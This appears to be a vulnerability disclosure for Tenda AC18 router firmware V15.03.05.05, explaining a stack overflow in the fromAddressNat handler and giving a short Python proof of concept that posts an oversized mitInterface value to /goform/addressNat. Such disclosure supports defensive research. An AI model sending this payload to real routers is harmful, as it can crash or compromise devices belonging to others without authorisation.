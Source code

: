 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v8` variable receives the `mitInterface` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v8` can trigger this security vulnerability.

![image-20240305210732094](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210732094.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"mitInterface": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305210435303](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210435303.png)
